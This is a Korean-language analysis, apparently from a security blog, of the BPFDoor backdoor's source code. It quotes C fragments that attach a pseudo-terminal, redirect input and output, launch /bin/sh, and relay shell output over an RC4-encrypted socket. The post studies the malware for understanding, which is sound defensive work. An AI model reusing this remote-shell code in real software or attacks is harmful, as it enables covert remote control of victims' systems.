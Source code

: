 `open_tty()` 함수와 관련하여 함수를 타고들어가면 Solaris 시스템에 사용될 수 있도록 하는 것으로 보이는 함수가 존재한다  

본 BPFDoor의 소스 코드는 리눅스 그리고 솔라리스 두 시스템을 대상으로 하는 것을 알 수 있다  
<br>

---

```c
subshell = fork();
if (subshell == 0) {
        close(pty);
        ioctl(tty, TIOCSCTTY);
        close(sock);
        dup2(tty, 0);
        dup2(tty, 1);
        dup2(tty, 2);
        close(tty);
        execve(sh, argvv, envp);
}
close(tty);
```

가상 터미널을 잡았을 경우에 P4는 자식 프로세스(P5)를 생성한다  

P5는 입출력 및 에러를 `tty`로 전환한다  
`tty`는 PTS 파일 디스크립터이다  

`tty`를 `TIOCSCTTY`를 사용하여 PTS를 호출자 프로세스에 대한 제어 터미널로 한다  

최종적으로 `/bin/sh` 쉘을 사용하여 PTS에서 연다  
<br>

---

##### while 루프

```c
#define BUF 32768

...

char buf[BUF];

if (FD_ISSET(pty, &fds)) {
        int count;
        count = read(pty, buf, BUF);
        if (count <= 0) break;
        if (cwrite(sock, buf, count) <= 0) break;
}
```

PTY에 응답이 들어오면 `pty`로 들어온 데이터가 `buf`로 저장된다  

그 후 소켓에 `buf`에 저장된 데이터가 입력으로 들어간다  
`cwrite()` 함수가 사용되는데 해당 함수 내부에서 `buf`에 저장된 값의 rc4 복호화가 수행된 후 소켓에 입력으로 들어간다  
<br>

---